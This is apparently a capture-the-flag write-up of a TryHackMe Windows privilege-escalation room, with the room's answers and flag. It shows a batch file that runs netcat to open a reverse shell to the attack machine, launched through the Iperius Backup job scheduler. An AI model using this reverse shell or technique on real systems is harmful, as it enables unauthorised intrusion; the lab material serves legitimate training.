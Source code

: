 
![image](https://github.com/user-attachments/assets/6371db5c-9eec-4f49-bdff-02ec11b425c9)

<br>




<h1>[ Day 13 ] Networking - They Lost The PLan!</h1>

<p>
  
- Launched <code>PowerShell</code><br><br>

- Executed <code>net users</code><br><br>

![image](https://github.com/user-attachments/assets/57ad735d-d55b-40a7-a986-ee10b4b36140)


<br>

1.1. Complete the username: p.....<br>
<code>pepper</code><br>

<br>

- Executed command <code>systeminfo</code><br>

<br>

![image](https://github.com/user-attachments/assets/c1b96525-8167-451c-aee0-f6ebc880991e)

<br>

1.2. What is the OS version?<br>
<code>10.0.17763 N/A Build 17763</code>

<br>

- Listed the services running on the system, executing <code>wmic service list</code>.<br>

<br>

![image](https://github.com/user-attachments/assets/886258a6-e828-4fff-98ca-b299b3856daa)

<br>

![image](https://github.com/user-attachments/assets/50f95368-8c15-49d7-9549-b6eed707ed51)


<br>

- Executed <code>wmic service list >> services.txt</code><br><br>
- Executed <code>Select-String -Path services.txt -Pattern backup</code>.<br><br>

<br>

![image](https://github.com/user-attachments/assets/1be6672e-74d8-4bfe-a2d0-b41a6bcbcc3c)

<br>

1.3. What backup service did you find running on the system?<br>
<code>IperiusSvc</code><br>

<br>

1.4. What is the path of the executable for the backup service you have identified?<br>
<code>C:\Program Files (x86)\Iperius Backup\IperiusService.exe</code><br>


![image](https://github.com/user-attachments/assets/5b6d0c01-0c5b-4439-8414-2e4dbf2378ef)

<br>

1.5. Run the whoami command on the connection you have received on your attacking machine. What user do you have?<br>
<code>the-grinch-hack\thegrinch</code><br>

<br>

1.6. What is the content of the flag.txt file?<br>
<code>THM-736635221</code><br>

<br>


- Navigated to <code>THM Attackbox</code> virtual machine.<br><br>
- Looked at the right upper corner and discovered my <code>AttackIP</code>:<code>10.10.72.55</code>.<br><br>
- Launched <code>Command Prompt</code>.<br><br>
- Practice also executing the command <code>ifconfig</code>, and confirmed the IP there in the <code>ens5</code> section.<br><br>
- Set up a listener using <code>nc -nlvp 4444</code>.<br><br>
-----------------------------------<br>
- Navigated to <code>Aoc_WinPrivEsc</code> virtual machine.<br><br>
- Note: the <code>TargetIP</code> I am using is <code>10.10.203.205</code>.<br><br>
- Launched <code>notepad</code><br><br>
- Added content to a <code>notepad</code> file.<br><br>
- Saved it as <code>evil.bat</code> in the <code>C:\Users\McSkidy\Desktop</code> path.<br><br>
- Navigated to <code>Desktop</code>.<br><br>
- Double-clicked <code>evil.bat</code>.<br><br>
-----------------------------------<br>
- Navigated to <code>THM Attackbox</code> virtual machine.<br><br>
-----------------------------------<br>
- Navigated to <code>Aoc_WinPrivEsc</code> virtual machine.<br><br>
- Launched <code>Iperius Backup</code> application.<br><br>
- Clicked <code>Create a New Backup Job</code>.<br><br>
- Clicked <code>Add folder</code>.<br><br>
- Clicked <code>Select</code>.<br><br>
- Chose <code>C:\Users</code>.<br><br>
- Clicked <code>OK</code>.<br><br>
- Clicked <code>Next</code>.<br><br>
- Navigated to the <code>Other processes</code> tab.<br><br>
- Toggled <code>Run a program or open external file</code>.<br><br>
- Clicked <code>Select</code>.<br><br>
- Chose <code>C:\Users\McSkidy\Desktop\evil.bat</code>.<br><br>
- Clicked <code>Next</code>, and <code>OK</code>.<br><br>
- Typed <code>Plan</code> for the <code>Job name</code>, and clicked <code>OK</code>.<br><br>
-


<br>

![image](https://github.com/user-attachments/assets/db433eca-4470-44d7-bb3d-7a6a408ebb35)


<br>

![image](https://github.com/user-attachments/assets/dba0f626-8ecd-4921-b665-a014f1f6574e)


<br>

![image](https://github.com/user-attachments/assets/1600e8f8-8083-4b47-889b-3b77d575eb78)



<br>

<code>@echo off</code><br>
<code>C:\Users\McSkidy\Downloads\nc.exe -nv 10.10.72.55 1337 -e cmd.exe</code><br>

<br>

![image](https://github.com/user-attachments/assets/aa991830-993d-487b-9f24-10a349164011)

<br>

![image](https://github.com/user-attachments/assets/06731c3f-f490-4f05-88d6-8bcb86f71ebe)



<br>

![image](https://github.com/user-attachments/assets/5243f622-8bd7-40e9-b1a9-ef009cc47818)

<br>

![image](https://github.com/user-attachments/assets/a95c32ef-eac2-4843-a6a2-6195fd3ea708)

<br>

<br>

![image](https://github.com/user-attachments/assets/b5242ba3-4a26-4f2a-9701-5affc5b8eb9e)

<br>

![image](https://github.com/user-attachments/assets/06a91cea-effa-4629-b79f-f3181193a96f)

<br>

![image](https://github.com/user-attachments/assets/f38cc281-c544-47f8-b3b5-000b1e8f18ba)

<br>


1.7. The Grinch forgot to delete a file where he kept notes about his schedule! Where can we find him at 5:30?<br>
<code>jazzercize</code><br>

<br>

![image](https://github.com/user-attachments/assets/72eb6bde-91c7-4c2d-be87-6993646dd6df)
